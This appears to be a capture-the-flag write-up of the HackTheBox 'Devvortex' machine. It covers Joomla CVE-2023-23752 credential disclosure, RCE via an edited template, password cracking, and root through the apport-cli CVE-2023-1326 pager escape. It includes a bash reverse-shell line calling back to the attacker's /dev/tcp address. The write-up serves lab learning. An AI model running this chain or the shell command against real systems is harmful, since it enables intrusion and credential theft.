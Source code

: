 ```yaml
---
title: "Devvortex — HackTheBox [Writeup]"
description: "The web framework for content-driven websites."
pubDate: "Dec 5 2023"
---
```


Let’s start with a basic nmap scan

![](../../assets/blog/images/devvortex/1*xwXvB9Z3di6q49q_mT7scQ.png)

We can see that 22 (SSH) and 80 (HTTP) ports are open. 
If you open it in the browser you will be redirected to devvortex.htb. It means we need to add it in /etc/hosts

After doing the previous step and refreshing the page we can see the website content

![](../../assets/blog/images/devvortex/1*3TSkOp95-IPhvbfeSVdrGg.png)

After examining the website I didn’t find anything interesting.
Then I started enumerating directories and vhosts using ffuf

![Directory Enumeration](../../assets/blog/images/devvortex/1*ozdiDdSSOP3Ri1i8B4jBMA.png)

![VHost Enumeration](../../assets/blog/images/devvortex/1*5B9GwPkucjCVFdSXaUsydA.png)

Cool. We found the dev.devvortex.htb subdomain. We need to add it in the hosts file too.

![/etc/hosts file](../../assets/blog/images/devvortex/1*AqUovtv4vSQK8IDsDoNtuw.png)

![](../../assets/blog/images/devvortex/1*rqUzLIDtg6PF-OjkisHLGw.png)

Perfect. Now let’s run a directory scan on this subdomain

![](../../assets/blog/images/devvortex/1*N8lpbWhzgGj3xTmOAAiGXA.png)

We identified a few directories. /administrator directory redirects us to Joomla admin panel

![](../../assets/blog/images/devvortex/1*cUkDkb8fifv3EpZxjWfu2g.png)

We can you [joomscan](https://github.com/OWASP/joomscan) tool to get more information about the website


Joomla version of the website is 4.2.6.
If we search for Joomla 4.2.6 vulnerabilities we will find out that there exists one interesting vulnerability with a publicly known exploit, which allows unauthenticated user access to webservice endpoints which then can lead to information disclosure

![Joomscan Result](../../assets/blog/images/devvortex/1*EYc_Gyb3QcEemuiNGgwUSA.png)

I used this PoC [https://github.com/adhikara13/CVE-2023-23752](https://github.com/adhikara13/CVE-2023-23752)

![](../../assets/blog/images/devvortex/1*xL7OoawD_MTutu_NtJ4K1Q.png)

script gives us database name, username and password. I also tried and used it to login the admin panel and luckily it worked.

![](../../assets/blog/images/devvortex/1*MjF38zToMA_kudFEFZcrbA.png)

When you have Joomla admin credentials it’s so easy to get RCE too using a simple trick. You can check details on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce).

Steps to RCE:

1. Go to System > Site Templates > Cassiopeia Details and Files

1. Choose the file you want to edit (I used error.php)

1. Add the following code in the file and click Save

```
# Replace YOUR_IP with your HackTheBox VPN ip address
system("bash -c'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'")
```

![](../../assets/blog/images/devvortex/1*s6jOepRt4bVxuvlDpXPuNg.png)

4. Start a listener

![](../../assets/blog/images/devvortex/1*nLR7rxHcWHSlIVbQrdjVHg.png)

5. Now load the file you edited (error.php in this case) using the URL
http://dev.devvortex.htb/templates/cassiopeia/error.php and you will get the reverse shell and upgrade to tty shell for better experience

![](../../assets/blog/images/devvortex/1*S8fnKT_86wnsh47ACVqBQg.png)

![](../../assets/blog/images/devvortex/1*7klDJhyU3uAbyRDI8nH3bA.png)

We already have Database Credentials (you can also see them in /var/www/dev.devvortex.htb/configuration.php file) which we exfiltrated earlier using Joomla exploit. Let’s try and connect to the database and try to get more information

![](../../assets/blog/images/devvortex/1*ghU8iVYrVDxw8S5u2_PMfA.png)

you can list tables using show tables; command and you will find out there is a *sd4fg_users* table

![](../../assets/blog/images/devvortex/1*Is99Iialf7GjLIoubhG-ow.png)

Now select data from the table

![](../../assets/blog/images/devvortex/1*JlhMZCfdbevLCtoVUDS4jw.png)

Great! There is another user’s password hash. We can use john to crack it

![](../../assets/blog/images/devvortex/1*oNqXmAV9P08XoYUgsO7Gbg.png)

You can also see in /etc/passwd file that logan is a Linux user

![](../../assets/blog/images/devvortex/1*Exa2HzqRdav_zxJeU2Zsvw.png)

It seems like we might be able to log in ssh using this user and get a user flag

![](../../assets/blog/images/devvortex/1*7JT7D9k6ps7M0Bk2ImXraA.png)

Bingo 🥳

Now it’s time for privilege escalation. Before running LinPEAS or anything I always check sudo -l command to see which commands the user can run using sudo. logan user can run apport-cli using sudo

![](../../assets/blog/images/devvortex/1*7PJ1DNS10cld-IS0oZvBCA.png)

apport-cli is a CLI tool for collecting and analysing data about crashed processes.

Few months ago **CVE-2023–1326** was publish for apport-cli allows attacker to escalate privileges on the system and it looks like there exists publicly known exploits for this vulnerability
[CVE-2023-1326 - Github Advisory Database](https://github.com/advisories/GHSA-qgrc-7333-5cgx)

Let's reproduce it

Steps:
1) Create a file in /var/crash directory

![](../../assets/blog/images/devvortex/1*gOrMJjaYUa-EJ-T9beSJFw.png)

2) execute *sudo apport-cli -c /var/crash/crash.crash less *and choose **V **when prompted

![](../../assets/blog/images/devvortex/1*CT6yj4l9c3JiOcV7pcYvoA.png)

3) Wait for a few seconds and after you see a colon (:) symbol type !whoami and click enter

![](../../assets/blog/images/devvortex/1*1IzINyMmWmfYIqwm0a5myw.png)

![](../../assets/blog/images/devvortex/1*_k4T_zyzPBDmuJuTBmU9RA.png)

Perfect. We are **root**

Now type !cat /root/root.txt to get a flag

![](../../assets/blog/images/devvortex/1*KQCfB43gi_KoYHOcGfw28g.png)

![](../../assets/blog/images/devvortex/1*oSAtG5i8E57P5nlYTuokkg.png)

Pwn3d! 🏁

Follow me: [https://twitter.com/_Lazzarus](https://twitter.com/_Lazzarus)
